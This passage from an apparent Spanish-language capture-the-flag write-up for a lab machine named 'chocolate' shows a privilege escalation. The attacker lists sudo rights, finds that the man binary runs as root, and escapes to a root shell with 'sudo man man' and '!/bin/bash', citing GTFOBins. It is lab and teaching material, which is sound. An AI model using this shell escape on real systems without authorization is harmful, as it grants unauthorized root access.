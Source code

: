 Aunque no encontraremos nada dentro del directorio de este usuario.

<br>

<h2 id="man">Escalando Privilegios con Binario Man (Shell Escape) y Suplantando Contraseña de Root con openssl</h2>

Si revisamos los privilegios de este usuario, encontraremos algo interesante:
```bash
secretote@chocolate:~$ sudo -l
[sudo] contraseña para secretote: 
Matching Defaults entries for secretote on chocolate:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User secretote may run the following commands on chocolate:
    (ALL : ALL) /usr/bin/man
```
Podemos usar el **binario man** como el **usuario Root**.

Si investigamos este binario en la **guía de GTFOBins**, encontraremos una forma de escalar privilegios:
* <a href="https://gtfobins.github.io/gtfobins/man/" target="_blank">GTFOBins: man</a>

Y aquí está:

<p align="center">
<img src="/assets/images/THL-writeup-chocolate/Captura2.png">
</p>

Prácticamente, esto es aplicar un **Shell Escape**.

Vamos a aplicarlo:
```bash
secretote@chocolate:~$ sudo man man
```

Ahora, escapamos del manual con `!/bin/bash`:

<p align="center">
<img src="/assets/images/THL-writeup-chocolate/Captura3.png">
</p>
